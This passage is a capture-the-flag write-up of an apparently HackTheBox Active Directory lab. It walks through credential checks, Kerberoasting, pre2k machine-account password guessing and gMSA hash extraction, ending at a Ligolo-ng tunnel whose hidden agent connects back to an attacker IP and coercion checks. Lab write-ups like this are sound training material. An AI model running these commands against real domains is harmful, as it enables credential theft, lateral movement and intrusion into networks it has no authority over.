|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 7h00m03s, deviation: 0s, median: 7h00m02s

```

I summarized the relevant findings from the scan:
```txt
Port 88 - Kerberos
Port 80 - IIS Web Server
Port 389/636 - LDAP/LDAPS
Port 445 - SMB
Port 53 - DNS
Port 135 - RPC
Port 5985 - WinRM
AD Certificate Services CA Present (issue: `pirate-DC01-CA`)
Message signing required on SMB
Domain: `pirate.htb`
```

## Prerequisites
I used NetExec to generate hostname mappings and a Kerberos configuration so later tools could resolve the domain controller consistently.
```bash
nxc smb $target_ip --generate-hosts-file hostsfile
```
I reviewed `hostsfile` and copied the relevant mappings into `/etc/hosts`.

I also generated a Kerberos configuration for subsequent authentication attempts:
```bash 
$ nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&' --generate-krb5-file ./krb5.conf
SMB 10.129.1.12 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.1.12 445 DC01 [+] krb5 conf saved to: ./krb5.conf
SMB 10.129.1.12 445 DC01 [+] Run the following command to use the conf file: export KRB5_CONFIG=./krb5.conf
SMB 10.129.1.12 445 DC01 [+] pirate.htb\pentest:p3nt3st2025!&
```
The generated `krb5.conf` contained:
```bash
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = PIRATE.HTB

[realms]
    PIRATE.HTB = {
        kdc = dc01.pirate.htb
        admin_server = dc01.pirate.htb
        default_domain = pirate.htb
    }

[domain_realm]
    .pirate.htb = PIRATE.HTB
    pirate.htb = PIRATE.HTB
```
I selected that configuration with `export KRB5_CONFIG=./krb5.conf`.
## Enumeration
I tested the supplied credentials against SMB, LDAP, and WinRM:
```bash
$ nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&'
SMB 10.129.1.12 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB 10.129.1.12 445 DC01 [+] pirate.htb\pentest:p3nt3st2025!&
  
$ nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&'
LDAP 10.129.1.12 389 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never)
LDAP 10.129.1.12 389 DC01 [+] pirate.htb\pentest:p3nt3st2025!& 
  
$ nxc winrm pirate.htb -u 'pentest' -p 'p3nt3st2025!&'
WINRM 10.129.1.12 5985 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb)
WINRM 10.129.1.12 5985 DC01 [-] pirate.htb\pentest:p3nt3st2025!&
```
SMB and LDAP authentication succeeded, but WinRM failed in this test. The output reported LDAP channel binding as `Never`; the `signing:None` field alone was not enough for me to establish a working LDAP relay path.

I kept the Kerberos configuration available while testing authentication separately from service-level authorization.

To request Kerberos authentication, I used NetExec's `-k` flag. This is the corresponding command; the previous WinRM result used NTLM:
```bash
nxc winrm pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k
```
My scan showed a clock difference of about seven hours, which can cause `KRB_AP_ERR_SKEW` during Kerberos authentication. I used the following `ft.sh` wrapper to obtain the offset with `ntpdate` and apply it to one command through `faketime`:
```bash
#!/usr/bin/env bash

set -euo pipefail

if [ $# -lt 2 ]; then
    echo "Usage: $0 <ip> <command>"
    exit 1
fi

ip="$1"
shift
command=( "$@" )

echo "[*] Querying offset from: $ip"

# Extract first signed floating-point offset from ntpdate output
offset_float=$(ntpdate -q "$ip" 2>/dev/null | grep -oE '[+-][0-9]+\.[0-9]+' | head -n1 || true)

if [ -z "${offset_float:-}" ]; then
    echo "[!] Failed to extract valid offset from ntpdate."
    echo "[!] Raw ntpdate output:"
    ntpdate -q "$ip" || true
    exit 1
fi

# Compose faketime format (already includes + or -)
faketime_fmt="${offset_float}s"

echo "[*] Detected offset: $offset_float seconds"
echo "[*] faketime format: $faketime_fmt"
echo "[*] Running: ${command[*]}"
echo

exec faketime -f "$faketime_fmt" "${command[@]}"
```
With the Kerberos configuration selected, I wrapped subsequent NetExec commands with `ft.sh`:
```bash
$ ./ft.sh pirate.htb \
  nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k
[*] Querying offset from: pirate.htb
[*] faketime -f format: +25144.539157 25144.539157s
[*] Running: nxc smb pirate.htb -u pentest -p p3nt3st2025!& -k
SMB pirate.htb 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB pirate.htb 445 DC01 [-] Error checking if user is admin on pirate.htb: The NETBIOS connection with the remote host timed out.
SMB pirate.htb 445 DC01 [+] pirate.htb\pentest:p3nt3st2025!&
```
I reused this setup for later Kerberos requests.

I also enumerated domain users with the supplied credentials:
```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' --users
```
The output included these accounts:
```
Administrator
Guest
krbtgt
a.white_adm
a.white
pentest
j.sparrow
```
I noted the accounts `a.white` and `a.white_adm`, then requested service tickets for Kerberoasting with NetExec:
```bash  
./ft.sh pirate.htb \
  nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k --kerberoasting output.txt
```
I didn't recover a password from the collected material using `rockyou.txt`. That only ruled out the candidates I tested, so I moved on to another enumeration path.

With valid credentials and reachable LDAP, I could collect directory data for BloodHound to map accounts and permissions.

## BloodHound Enumeration

I collected the directory information for BloodHound and imported the results. My notes do not preserve the collector command.

Starting from the `pentest` user:


The graph included **Pre-Windows 2000 Compatible Access**, a legacy directory-access group. I treated it as an enumeration lead rather than proof of a password weakness.

BloodHound also showed a potential path originating from `a.white`.


I didn't yet control `a.white`, so I needed another entry point before following that path.

## Port 80
The website at `http://pirate.htb` returned the default IIS page. I didn't establish an exploitation path through this page.


## Machine Account Access
### Pre2k
I investigated pre-created computer accounts next. This is a separate issue from membership in **Pre-Windows 2000 Compatible Access**: an account created with the legacy compatibility option can retain a predictable initial machine password if it has not been changed.

The presence of NTLM authentication did not by itself prove that any machine account had such a password.

I retained this graph as context for the directory permissions:

To test the password hypothesis, I used NetExec's `pre2k` module rather than relying on the group membership alone.


### MS01$ Account
The module enumerates candidate computer accounts and tests their initial passwords:
```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
```

The recorded run obtained Kerberos TGTs for two accounts:
```bash 
$ ./ft.sh pirate.htb \
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k -M pre2k
[*] Querying offset from: pirate.htb
[*] faketime -f format: +25144.654913
25144.654913s
[*] Running: nxc ldap pirate.htb -u pentest -p p3nt3st2025!& -k -M pre2k
LDAP        pirate.htb      389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never)
LDAP        pirate.htb      389    DC01             [+] pirate.htb\pentest:p3nt3st2025!&
PRE2K       pirate.htb      389    DC01             Pre-created computer account: MS01$
PRE2K       pirate.htb      389    DC01             Pre-created computer account: EXCH01$
PRE2K       pirate.htb      389    DC01             [+] Found 2 pre-created computer accounts. Saved to /home/Axura/.nxc/modules/pre2k/pirate.htb/precreated_computers.txt
PRE2K       pirate.htb      389    DC01             [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K       pirate.htb      389    DC01             [+] Successfully obtained TGT for exch01@pirate.htb
PRE2K       pirate.htb      389    DC01             [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /home/Axura/.nxc/modules/pre2k/ccache
$ for f in ~/.nxc/modules/pre2k/ccache/*.ccache; do klist "$f"; done
Ticket cache: FILE:/home/Axura/.nxc/modules/pre2k/ccache/exch01.ccache
Default principal: exch01@PIRATE.HTB

Valid starting       Expires              Service principal
03/01/2026 02:29:49  03/01/2026 12:29:49  krbtgt/PIRATE.HTB@PIRATE.HTB
        renew until 03/02/2026 02:29:48
Ticket cache: FILE:/home/Axura/.nxc/modules/pre2k/ccache/ms01.ccache
Default principal: ms01@PIRATE.HTB

Valid starting       Expires              Service principal
03/01/2026 02:29:47  03/01/2026 12:29:47  krbtgt/PIRATE.HTB@PIRATE.HTB
        renew until 03/02/2026 02:29:46
$ cp /home/Axura/.nxc/modules/pre2k/ccache/* .
```
The candidate accounts were:
```bash
Pre-created computer account: MS01$
Pre-created computer account: EXCH01$
```
The successful TGT requests above confirmed usable credentials, beyond merely identifying candidates. The [NetExec pre2k documentation](https://www.netexec.wiki/ldap-protocol/pre2k) describes testing the first 14 lowercase characters of the hostname as the initial password.


This gave me credentials for `MS01$` and `EXCH01$`. For these short hostnames, the tested passwords were `ms01` and `exch01`.

## gMSA
With access to the machine accounts, I revisited the following BloodHound path:

The `ReadGMSAPassword` edge showed that a principal I controlled could retrieve the managed password for `gMSA_ADFS_prod$`.

A group Managed Service Account (gMSA) is a service account whose password Active Directory manages automatically. Authorized hosts retrieve that password to run services. Control of a host authorized to retrieve it can therefore expose the service account's credentials.

BloodHound's [ReadGMSAPassword documentation](https://bloodhound.specterops.io/resources/edges/read-gmsa-password) explains this relationship. The edge describes access to managed password material; it is not inherently a vulnerability in gMSA itself. Here, the weak machine-account password let me reach a principal with that access.
### Retrieve gMSA Credentials
I used the `MS01$` credentials to retrieve accessible gMSA password material with NetExec:
```bash
./ft.sh pirate.htb \
nxc ldap pirate.htb -u 'MS01$' -p 'ms01' --gmsa -k
```
The output listed two gMSAs and their NT hashes:
```bash
$ ./ft.sh pirate.htb \
nxc ldap pirate.htb -u 'MS01$' -p 'ms01' --gmsa -k
[*] Querying offset from: pirate.htb
[*] faketime -f format: +25144.614841
25144.614841s
[*] Running: nxc ldap pirate.htb -u MS01$ -p ms01 --gmsa -k
LDAP        pirate.htb      389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never)
LDAP        pirate.htb      389    DC01             [+] pirate.htb\MS01$:ms01
LDAP        pirate.htb      389    DC01             [*] Getting GMSA Passwords
LDAP        pirate.htb      389    DC01             Account: gMSA_ADCS_prod$      NTLM: 304106f739822ea2ad8ebe23f802d078     PrincipalsAllowedToReadPassword: Domain Secure Servers
LDAP        pirate.htb      389    DC01             Account: gMSA_ADFS_prod$      NTLM: 8126756fb2e69697bfcb04816e685839     PrincipalsAllowedToReadPassword: Domain Secure Servers
```

## Internal Network Enumeration
My notes continue from a shell as `gMSA_ADFS_prod$` on DC01, but do not include the command used to establish that session. From that shell, I inspected the network configuration:
```
C:\temp> ipconfig

Windows IP Configuration

Ethernet adapter vEthernet (Switch01):

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::d976:c606:587e:f1e1%8
   IPv4 Address. . . . . . . . . . . : 192.168.100.1
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . :

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : .htb
   IPv4 Address. . . . . . . . . . . : 10.129.1.12
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.129.0.1
```

I used `fscan` to scan the internal subnet containing `192.168.100.1`:

```bash
C:\temp> .\fscan.exe -h 192.168.100.1/24 -nobr -nopoc

(icmp) Target 192.168.100.1   is alive
(icmp) Target 192.168.100.2   is alive
[*] Icmp alive hosts len is: 2
192.168.100.1:88 open
192.168.100.2:808 open
192.168.100.2:445 open
192.168.100.1:445 open
192.168.100.2:443 open
192.168.100.2:139 open
192.168.100.1:139 open
192.168.100.2:135 open
192.168.100.2:80 open
192.168.100.1:135 open
[*] alive ports len is: 10
start vulscan
[*] NetInfo
[*]192.168.100.1
   [->]DC01
   [->]192.168.100.1
   [->]10.129.1.12
[*] NetInfo
[*]192.168.100.2
   [->]WEB01
   [->]192.168.100.2
[*] WebTitle http://192.168.100.2      code:200 len:703    title:IIS Windows Server
```
The scan found **WEB01** at `192.168.100.2`. I set up a Ligolo-ng tunnel through the existing session to reach that internal host from my machine.

## Tunneling
I launched the Ligolo-ng proxy on my machine, created its interface, and added a route for the internal subnet:
```bash
$ sudo ./proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2

ligolo-ng » ifcreate --name ligolo
INFO[0016] Creating a new ligolo interface...
INFO[0016] Interface created!
ligolo-ng » route_add --name ligolo --route 192.168.100.1/24
INFO[0048] Route created.
```
I uploaded the Windows agent to DC01 and started it in a separate process:
```powershell
*Evil-WinRM* PS C:\temp> upload ../../../hacktools/port4ward/ligolo-ng/agent.exe

Info: Uploading /home/Axura/ctf/HTB/pirate/../../../hacktools/port4ward/ligolo-ng/agent.exe to C:\temp\agent.exe

Data: 8925864 bytes of 8925864 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\temp> Start-Process -FilePath ".\agent.exe" -ArgumentList "-connect 10.10.12.47:11601 -ignore-cert" -WindowStyle Hidden
```
`Start-Process` let the agent run separately from the interactive shell. This was a background process, not a scheduled task.
Once the agent connected, I selected its session and started the tunnel:
```bash
[Agent : PIRATE\gMSA_ADFS_prod$@DC01] » INFO[0171] Agent joined.                                 id=00155d0bd000 name="PIRATE\\gMSA_ADFS_prod$@DC01" remote="10.129.1.12:62218"
WARN[0171] Agent 00155d0bd000 is already running, skipping recovery.
[Agent : PIRATE\gMSA_ADFS_prod$@DC01] » session
? Specify a session : 1 - PIRATE\gMSA_ADFS_prod$@DC01 - 10.129.1.12:62213 - 00155d0bd000
[Agent : PIRATE\gMSA_ADFS_prod$@DC01] » start
INFO[0193] Starting tunnel to PIRATE\gMSA_ADFS_prod$@DC01 (00155d0bd000)
```
My notes also record deleting the local tunnel interface while troubleshooting a stale connection. This tears down that interface; it must be recreated, with its route, before the tunnel can be used again:
```bash
sudo ip link delete ligolo
```
With the tunnel active, I could test reachability of WEB01 from my machine using `ping -c 4 192.168.100.2`.

## Vulnerability Scanning
I added the internal host to `/etc/hosts`:
```
192.168.100.2    WEB01.pirate.htb
```
I then ran NetExec's coercion and reflection checks against both hosts:
```bash
$ nxc smb DC01.pirate.htb\
    -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839' \
    -M ntlm_reflection -M coerce_plus
SMB         10.129.1.12     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.1.12     445    DC01             [+] pirate.htb\gMSA_ADFS_prod$:8126756fb2e69697bfcb04816e685839
COERCE_PLUS 10.129.1.12     445    DC01             VULNERABLE, DFSCoerce
COERCE_PLUS 10.129.1.12     445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.129.1.12     445    DC01             VULNERABLE, PrinterBug
COERCE_PLUS 10.129.1.12     445    DC01             VULNERABLE, PrinterBug
COERCE_PLUS 10.129.1.12     445    DC01             VULNERABLE, MSEven
$ nxc smb WEB01.pirate.htb\
    -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839' \
    -M ntlm_reflection -M coerce_plus
SMB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         192.168.100.2   445    WEB01            [+] pirate.htb\gMSA_ADFS_prod$:8126756fb2e69697bfcb04816e685839
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PetitPotam
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, MSEven
```
The coercion module reported potential methods on both hosts. SMB signing was required on DC01 but not on WEB01, making WEB01 a candidate SMB relay destination. These checks did not demonstrate a completed relay.
### Where My Notes Stop

I had an internal tunnel and several leads to investigate, but I didn't record the next relay attempt or a final administrator session. I'm leaving that gap explicit rather than presenting this as a completed walkthrough.
